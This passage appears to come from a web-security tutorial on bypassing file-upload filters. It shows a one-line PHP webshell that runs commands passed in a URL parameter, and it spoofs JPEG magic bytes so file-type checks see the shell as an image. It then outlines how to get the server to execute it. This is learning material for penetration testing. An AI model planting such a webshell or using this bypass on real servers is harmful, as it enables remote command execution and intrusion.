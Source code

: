 We can try adding the [`JPG` magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) to our webshell using a tool such as `hexedit` or [`hexeditor`](https://www.kali.org/tools/ncurses-hexedit/) (Figure 6), which might trick the system into uploading it.

```bash
# original webshell
$ cat webshell.php
<?php system($_GET['cmd']); ?>
# system recognizes as a PHP script
$ file webshell.php
webshell.php: PHP script, ASCII text
$ file --mime-type webshell.php
../user-content/webshell.php: text/x-php
# add 4 random bytes at the start of it
$ cat webshell.php
AAAA<?php system($_GET['cmd']); ?>
# change the 4 bytes to FF D8 FF E0
$ hexeditor webshell.php
```

<figure><img src="../../.gitbook/assets/web_fileUpload_serverSide_2.png" alt=""><figcaption><p>Figure 6: Editing the file's magic bytes.</p></figcaption></figure>

Next, we can check if the file is now recognized as an image file instead of a PHP script.

```bash
# confirm the change
$ cat webshell.php
����<?php system($_GET['cmd']); ?>
# system recongizes as a JPEG file
$ file webshell.php
webshell.php: JPEG image data
$ file --mime-type webshell.php
webshell.php: image/jpeg
```

To upload the shell we must first bypass the client-side extension filter by adding an image extension to the file and then remove that extension via our proxy, so the server is able to execute it (Figure 7).
